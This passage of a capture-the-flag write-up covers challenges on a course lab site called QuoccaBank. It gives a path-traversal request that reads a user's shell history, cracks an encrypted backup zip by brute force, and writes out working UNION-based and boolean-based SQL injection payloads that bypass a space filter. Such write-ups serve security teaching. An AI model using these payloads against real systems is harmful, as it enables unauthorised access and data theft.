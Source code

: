 ```
> https://qos.quoccabank.com/api/getappimage?f=../home/adamyi/.bash_history&signature=c42ac3a2ac87747b424e59bef578c1ae21600c37
wget https://qos.quoccabank.com/adamyi_backup.zip
```

Visiting https://qos-v2-dev-syd.quoccabank.com gives us another flag.

Download `adamyi_backup.zip` and it turns out to be an encrypted zip file. A simple google search tells us we can use john the ripper to brute-force its password, which turns out to be `12345`

#### handbook v1 (UNION-based SQL injection)

![handbook](/blog/images/2020/09/qos_handbook.png)

Handbook is a simple service that allows you to search for computer science courses at UNSW.

Using a `'` as query and we'll get this error: `Error 1064: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%' OR id LIKE '%'%'' at line 1` so this is vulnerable to SQL injection.

The system also replaces ` ` (space) to `NOSPACE` and `/**/` to `/BADHACKER/`. One can easily bypass this by substituting spaces with `/*a*/`.

Query `INFORMATION_SCHEMA` to get table schema. There are many fake flags in the `secrets` table, with one real flag.

Final payload:

```
'/*a*/UNION/*a*/SELECT/*a*/1,secret/*a*/FROM/*a*/secrets/*a*/WHERE/*a*/secret/*a*/NOT/*a*/LIKE/*a*/'%not-a-real%'#
```

#### handbook v2 (boolean-based SQL injection)

An upgraded version of handbook, with its api served over https://qos-handbook-v2.quoccabank.com/ instead of https://qos-handbook-v1.quoccabank.com/

`https://qos-handbook-v2.quoccabank.com/?query=algorithm` 302 redirects to `https://qos-handbook-v2.quoccabank.com/?query=algorithm&order_by=id`

We can no longer inject `query` but we can inject `order_by`

```
https://qos-handbook-v2.quoccabank.com/?query=algorithm&order_by=a

{"courses":[{"id":"ERROR00","title":"Error 1054: Unknown column 'a' in 'order clause'"},{"id":"PROTIP","title":"To save you some time, the db schema is the same as v1, and there's no more troll flags i promise"}],"success":0}
```

We can use boolean-based injection here.

- To confirm flag exists: `https://qos-handbook-v2.quoccabank.com/?query=&order=if((select(count(1))/*a*/from/*a*/secrets/*a*/where/*a*/secret/*a*/not/*a*/like/*a*/%27%25not-a-real-flag%25%27)=1,id,title)`
- To exfiltrate flag character by character: `https://qos-handbook-v2.quoccabank.com/?query=&order=if((select(substr(secret,1,14))/*a*/from/*a*/secrets/*a*/where/*a*/secret/*a*/not/*a*/like/*a*/%27%25not-a-real-flag%25%27)=%27COMP6443FINAL{%27,id,title)`
